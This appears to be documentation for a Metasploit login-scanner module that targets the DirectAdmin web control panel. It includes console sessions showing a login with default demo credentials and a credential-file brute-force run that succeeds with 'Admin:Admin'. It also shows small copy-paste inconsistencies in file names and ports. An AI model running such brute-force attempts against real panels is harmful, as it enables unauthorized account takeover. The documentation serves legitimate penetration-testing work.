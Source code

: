 ## Description

This module attempts to log into DirectAdmin Web Control Panel. DirectAdmin Web Control Panel is commercial application for remote administration of Web server's. Gaining privileged access to DirectAdmin can lead to remote code execution via their upload utility, or sensitive information disclosure such as access to database backups.

## Vulnerable Application

[DirectAdmin Website](https://www.directadmin.com/)
[Demo Information]( https://www.directadmin.com/demo.php)

## Verification Steps

1. Do: ```use auxiliary/scanner/http/directadmin_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: Set credentials
5. Do: ```run```
6. You should see the module attempting to log in.

## Scenarios

### Attempt to login with the default credentials.

```
msf > use auxiliary/scanner/http/directadmin_login
msf auxiliary(scanner/http/directadmin_login) > set RHOSTS 10.0.0.39
RHOSTS => 10.0.0.39
msf auxiliary(scanner/http/directadmin_login) > set username demo_admin
username => demo_admin
msf auxiliary(scanner/http/directadmin_login) > set password demo
password => demo
msf auxiliary(scanner/http/directadmin_login) > run

[+] 10.0.0.39:2222 - Success: 'demo_admin:demo'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/directadmin_login) >
```

### Brute force with credentials from file.

```
msf > use auxiliary/scanner/http/directadmin_login 
msf auxiliary(directadmin_login) > set RHOSTS 10.0.0.39
RHOSTS => 10.0.0.39
msf auxiliary(directadmin_login) > set USERPASS_FILE ~/DirectAdminCreds.txt
USERPASS_FILE => ~/BuildMasterCreds.txt
msf auxiliary(directadmin_login) > run

[*] 10.0.0.39:81          - Trying username:"Admin" with password:"test"
[-] FAILED LOGIN - 10.0.0.39:81          - "Admin":"test"
[*] 10.0.0.39:81          - Trying username:"Admin" with password:"wrong"
[-] FAILED LOGIN - 10.0.0.39:81          - "Admin":"wrong"
[*] 10.0.0.39:81          - Trying username:"Admin" with password:"Admin"
[+] SUCCESSFUL LOGIN - 10.0.0.39:81          - "Admin":"Admin"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(directadmin_login) > 
```

